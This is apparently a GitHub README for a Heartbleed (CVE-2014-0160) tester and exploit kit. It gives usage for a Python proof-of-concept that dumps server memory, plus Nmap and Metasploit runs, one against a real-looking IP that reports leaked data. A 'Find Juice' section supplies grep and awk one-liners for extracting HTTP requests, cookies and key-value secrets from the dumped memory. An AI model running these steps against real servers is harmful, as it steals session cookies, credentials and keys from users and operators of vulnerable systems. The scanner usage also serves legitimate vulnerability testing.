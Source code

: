 HeartBleed Tester & Exploit
---------------------------

*NB* Nearly all the tools (nmap, metasploit, nessus, even burp) have the most up to date versions of their scanners. These tools were released at the early stages when tools were still being developed. Rather use those than these now.

Tool Guide
----------

* If you want to mass scan, the NMAP script is currently your best bet.
* For the largest number of protocols supports (STARTTLS) check the modified Metasploit script
* If you want to actually exploit, use the python script (mods required for STARTTLS on non-smtp)

Python Tool
-----------

Usage: heartbleed-poc.py server [options]

Test for SSL heartbeat vulnerability (CVE-2014-0160)

Options:
  -h, --help            show this help message and exit
  -p PORT, --port=PORT  TCP port to test (default: 443)
  -n NUM, --num=NUM     Number of heartbeats to send if vulnerable (defines
                        how much memory you get back) (default: 1)
  -f FILE, --file=FILE  Filename to write dumped memory too (default:
                        dump.bin)
  -q, --quiet           Do not display the memory dump
  -s, --starttls        Check STARTTLS (smtp only right now)

Examples
--------

* Normal scan, will hit port 443, with 1 iteration:
python heartbleed-poc.py example.com

* Dump memory scan, will make 100 request and put the output in the binary file dump.bin:
python heartbleed-poc.py -n100 -f dump.bin example.com

The make sure you get different parts of the HEAP, make sure the server is busy, or you end up with repeat repeat.

* Check a mail server with STARTTLS (i.e. port 25):
python heartbleed-poc.py -s -p 25 example.com

* There used to be a -v switch to make the TLS version explicit, this is auto-detected now and has been removed

Find Juice
----------

The binary file will have juicy output in it, here are some simple ways of finding the goods:

* HTTP request:
awk '/[HPG][UEO][AST][DT ]/,/Connection/' dump.bin

* Cookies:
grep -a "^Cookie:" dump.bin

* Interesting Key Value Pairs:
pcregrep -ao "[A-Za-z0-9_-]+=[0-9a-zA-Z]+" dump.bin

NMAP NSE Script
---------------

Usage:
nmap --script=ssl-heartbleed -p 443 <server>

Example Output:

Starting Nmap 6.41SVN ( http://nmap.org ) at 2014-04-09 17:27 SAST
Nmap scan report for <example.org> (1.2.3.4)
Host is up (0.0068s latency).
PORT    STATE SERVICE
443/tcp open  https
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|     Description:
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|       
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|       http://www.openssl.org/news/secadv_20140407.txt 
|_      http://cvedetails.com/cve/2014-0160/

Nmap done: 1 IP address (1 host up) scanned in 0.23 seconds

Metasploit Module
-----------------

msf > use auxiliary/scanner/ssl/openssl_heartbleed 
msf auxiliary(openssl_heartbleed) > show options

Module options (auxiliary/scanner/ssl/openssl_heartbleed):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   RHOSTS                       yes       The target address range or CIDR identifier
   RPORT       443              yes       The target port
   STARTTLS    None             yes       Protocol to use with STARTTLS, None to avoid STARTTLS  (accepted: None, SMTP, IMAP, JABBER, POP3, FTP)
   THREADS     1                yes       The number of concurrent threads
   TLSVERSION  1.0              yes       TLS version to use (accepted: 1.0, 1.1, 1.2)

msf auxiliary(openssl_heartbleed) > set rhosts example.org
rhosts => example.org
msf auxiliary(openssl_heartbleed) > set STARTTLS FTP
STARTTLS => FTP
msf auxiliary(openssl_heartbleed) > set PORT 21
PORT => 21
msf auxiliary(openssl_heartbleed) > exploit

[*] 37.187.134.197:21 - Trying to start SSL via FTP
[*] 37.187.134.197:21 - Sending Client Hello...
[*] 37.187.134.197:21 - Sending Heartbeat...
[*] 37.187.134.197:21 - Heartbeat response, checking if there is data leaked...
[+] 37.187.134.197:21 - Heartbeat response with leak
[*] 37.187.134.197:21 - Printable info leaked: @SE F(CKMIWsf"!98532ED/A
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
